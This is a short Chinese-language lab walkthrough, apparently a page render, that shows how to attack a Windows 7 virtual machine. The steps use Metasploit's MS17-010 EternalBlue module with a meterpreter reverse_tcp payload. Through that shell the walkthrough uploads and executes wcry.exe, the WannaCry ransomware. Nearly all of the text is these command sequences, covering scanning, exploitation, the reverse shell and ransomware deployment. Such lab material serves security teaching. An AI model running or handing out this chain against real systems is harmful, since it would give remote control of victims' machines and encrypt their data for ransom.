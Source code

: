 [参考文章](https://blog.csdn.net/Eastmount/article/details/105640538)

实验环境：
- 攻击机：Kali-Linux IP：192.168.47.129
- 靶机 Win 7 64位 IP：192.168.47.128

实验工具：
- metasploit
- MS17-010
- wcry.exe

实验步骤：
- 扫描靶机是否开启 445 端口
nmap -sS 192.168.47.128
- 打开漏洞利用工具 msfconsole
msfconsole
- 查询 MS17-010 漏洞模块
search ms17-010
- 利用永恒之蓝漏洞
use exploit/windows/smb/ms17_010_eternalblue
- 设置 payload
set payload windows/x64/meterpreter/reverse_tcp
- 设置本机 IP
set LHOST 192.168.47.129
- 设置受害主机 IP
set RHOST 192.168.47.128
- 设置端口 445
set RPORT 445
- 漏洞利用
exploit

- 查看当前路径
pwd
- 查看当前目录下文件
ls
- 进入 C 盘根目录
cd C:\\
- 上传 勒索病毒至win 7 系统
upload /home/kali/wcry.exe c:\\
- 进入 Win 7 终端
shell
- 执行 wcry.exe
wcry.exe
